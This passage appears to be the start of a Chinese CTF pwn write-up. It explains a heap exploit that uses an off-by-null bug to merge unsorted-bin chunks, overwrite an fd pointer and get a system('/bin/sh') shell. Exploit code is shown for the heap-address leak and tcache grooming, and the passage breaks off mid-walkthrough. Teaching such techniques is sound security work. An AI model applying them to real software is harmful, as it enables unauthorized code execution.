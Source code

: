 ### 思路

利用 off by null 在 unsorted bin 中实现 chunk 的合并，然后去修改 fd 指针，打 system('/bin/sh')

### 详细流程

先在 tcachebins 中泄露堆地址

```bash
add(0,0xf8,'aaaa')
add(1,0xf8,'aaaa')
delete(1)
delete(0)

add(1,0xf8,'')
show(1)
r(9)
heap_base=u64(p.recv(6).ljust(8,'\x00'))-0x30a
leak('heap_base ',heap_base)
```

[![](assets/1701606615-cf51570577fefa0c19e9768d2c95e46c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115212929-0109f9a4-83bb-1.png)  
然后重置一下 idx，然后布置一下 chunk(填满 tcachebins，然后留出两个 chunk 用来合并，最后 free 的 chunk 用来泄露 libc)

```bash
delete(1)
for i in range(11):
    add(i,0xf8,'')

for i in range(7):
    delete(i)

delete(9)
```
